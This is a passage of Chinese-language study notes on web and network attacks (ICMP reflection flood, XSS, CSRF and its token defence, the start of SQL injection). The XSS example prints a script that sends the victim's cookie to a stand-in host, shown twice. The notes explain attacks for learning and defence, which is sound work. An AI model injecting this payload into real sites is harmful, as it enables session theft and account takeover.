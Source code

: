 

### ICMP反射泛洪

攻击者利用广播地址发送 ICMP 包，一旦广播出去，就会被广播域内的所有主机回应，当然这些包都回应给了伪装的 IP 地址（指向被攻击主机），如果不停地发送此种类型的包，就会造成 DoS 攻击。





## XSS攻击

跨站脚本攻击（Cross-Site Scripting，XSS），利用网站没有对用户提交数据进行转义处理的缺点，添加一些脚本代码嵌入到 web 页面中去，使别的用户访问都会执行相应的嵌入代码，这种代码包括 HTML 和 JavaScript 。

XSS 的思想是用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，XSS 代码可以在用户浏览器为所欲为；



例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie，然后攻击者就可以拿到 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。





## CSFR

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

CSRF 原理上利用的是网站服务器端所有参数都是可预先构造的原理，黑客提前拼接好具体请求 URL，可以引诱用户提交他构造好的请求。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。



防御方法：

1. 使用验证码：有效，但是会降低用户体验

2. 使用一次性 Token：用户登录时，服务端会生成一个一次性的 Token，一般这个 Token 会保存在服务端返回给用户的页面中的一个隐藏域里。每次用户向服务端发送操作请求时会附带上这个 Token，服务端也会验证这个 Token 是否和分发给用户的 Token 一致，如果请求中不存在 Token 或 Token 不正确，即判定这个请求为非法请求。

   原理：利用了浏览器的同源策略，即第三方无法通过 AJAX 等方式获取到 Token 值。



## SQL注入攻击

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。
